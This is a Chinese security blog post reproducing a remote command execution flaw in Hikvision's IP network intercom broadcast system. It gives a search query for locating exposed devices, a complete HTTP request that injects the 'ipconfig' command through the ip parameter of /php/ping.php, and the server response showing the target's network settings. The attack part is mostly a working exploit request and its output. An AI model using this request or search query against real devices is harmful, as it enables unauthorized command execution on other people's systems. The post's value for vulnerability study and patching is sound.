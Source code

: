 #  【漏洞复现】海康威视IP网络对讲广播系统远程命令执行漏洞   
仲瑿  新势界NewFrontier   2024-01-03 14:01  
  
**声明**  
  
**该公众号大部分文章来自作者日常学习笔记，也有部分文章是经过作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。**  
  
**公众号现在只对常读和星标的公众号才展示大图推送，建议把公众号设为星标，否则可能就看不到啦！感谢各位师傅。**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HboZfk6j916a3yuImc0IM9jBibYS14e12yyic3aWtJPjBb5RjA9t2oTqcZPxHzgicmVEpff3ErQeUCv7zP8OFZy8Q/640?wx_fmt=png&from=appmsg "")  
  
**资产收集**  
```
web.icon=="e854b2eaa9e4685a95d8052d5e3165bc"
```  
  
****  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HboZfk6j916a3yuImc0IM9jBibYS14e12mA36pF3JAxHy5rLwcZWxPur10sCdewKFugFLejzPhz3w3FM9uvRfFQ/640?wx_fmt=png&from=appmsg "")  
  
**漏洞复现**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HboZfk6j916a3yuImc0IM9jBibYS14e12TaulQtH6zjWqiacR2SpmlxSSNMhAO2cLOkbgib2lw5NLjnv7YAiaE0FWA/640?wx_fmt=png&from=appmsg "")  
  
**构造请求包，向靶场发送如下数据包执行ipconfig命令**  
```

POST /php/ping.php HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Content-Length: 51
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest

jsondata%5Btype%5D=99&jsondata%5Bip%5D=ipconfig
```  
  
**响应内容**  
```
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Tue, 02 Jan 2024 07:47:56 GMT
Content-Type: text/html; charset=utf-8
Connection: close
X-Powered-By: PHP/7.4.7
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: X-Requested-With
Access-Control-Allow-Methods: GET,POST,OPTIONS
Content-Length: 463

 ["","Windows IP \u914d\u7f6e","","","\u4ee5\u592a\u7f51\u9002\u914d\u5668 \u4ee5\u592a\u7f51:","","   \u8fde\u63a5\u7279\u5b9a\u7684 DNS \u540e\u7f00 . . . . . . . :","   \u672c\u5730\u94fe\u63a5 IPv6 \u5730\u5740. . . . . . . . : fe80::6d38:2c60:9aa6:1142%2","   IPv4 \u5730\u5740 . . . . . . . . . . . . : 172.17.32.14","   \u5b50\u7f51\u63a9\u7801  . . . . . . . . . . . . : 255.255.240.0","   \u9ed8\u8ba4\u7f51\u5173. . . . . . . . . . . . . : 172.17.32.1"]
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HboZfk6j916a3yuImc0IM9jBibYS14e12zacDZ7vPxkQJOhpib5H1c6mzbBCb2p1bACcUUjicBU774YhtEGYvZibAQ/640?wx_fmt=png&from=appmsg "")  
  
